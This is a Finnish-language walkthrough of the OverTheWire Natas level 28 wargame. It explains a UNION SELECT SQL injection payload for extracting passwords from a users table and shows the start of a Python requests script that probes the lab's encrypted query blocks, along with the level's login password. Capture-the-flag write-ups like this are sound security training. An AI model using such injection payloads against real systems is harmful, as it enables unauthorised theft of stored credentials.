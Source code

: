 ![alt text](./kuvat-level22-28/natas28-7.png)


**JATKUU**
Nyt lisää skriptin osuutta, josta otetaan käyttöön toi SQL injketio salasanojen hakemista tietokannasta.

Tämä SQL injketio muodostaa kuin tämän komennon: `"a'*9+' UNION SELECT ALL password from users; #"` - seuraavaksi Lähettää POST-pyynnön: requests.post(...) lähettää datan palvelimelle HTTP-autentikoinnilla. Dekoodaa vastauksen: Palvelimen vastaus dekoodataan ensin URL:stä, sitten base64:stä, ja lopuksi hex-muotoon. Tulostaa salatun datan lohkoina: Skripti pilkkoo salatun vastauksen 32 tavun lohkoihin ja tulostaa ne.

```
import requests
from urllib.parse import unquote
import binascii
import base64

url = "http://natas28.natas.labs.overthewire.org/index.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

# Peruslohkoanalyysi
for i in range(1, 50):
    data = {"query": "a" * i}
    data_length = len(data['query'])
    res = requests.post(url=url, data=data, auth=(username, password))
```